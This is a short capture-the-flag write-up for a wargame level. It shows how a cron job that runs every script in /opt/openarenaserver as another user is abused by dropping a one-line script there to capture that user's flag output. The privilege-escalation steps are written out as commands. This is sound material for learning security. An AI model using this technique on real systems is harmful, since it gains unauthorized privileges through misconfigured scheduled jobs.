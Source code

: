 # Level 05

## step 1 : read mail
```
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
cron syntax : launch "sh /usr/sbin/openarenaserver" every 2 minutes

## step 2 : analyze /usr/sbin/openarenaserver
```
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

## step 3 : run getflag with /usr/sbin/openarenaserver
 - Put a script to get the output of getflag in the folder /opt/openarenaserver/
```
$ echo 'getflag > /tmp/flag.out' > /opt/openarenaserver/test.sh
```

- wait for cron to run the script

- read the output
```
$ cat /tmp/flag.out
```
